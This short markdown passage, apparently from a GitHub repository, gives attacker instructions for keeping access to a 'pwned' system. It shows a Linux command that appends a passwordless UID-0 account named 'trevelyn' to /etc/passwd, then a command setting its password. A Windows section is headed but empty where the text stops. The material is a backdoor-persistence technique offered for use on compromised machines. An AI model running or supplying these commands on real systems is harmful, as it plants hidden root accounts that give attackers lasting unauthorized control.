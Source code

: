 # Creating a new UID=0 User on Pwned System
This module will quickly describe the steps taken to add a new user onto a compromised system when you have root access.
## LINUX (Bash/Shell Method)
1. Create the user with no password entry:

`echo 'trevelyn::0:0:root:/root:/bin/bash' >> /etc/passwd`

2. Update the user's passsword to the username

`echo "trevelyn:trevelyn"|chpasswd`

## WINDOWS (DOS Method)
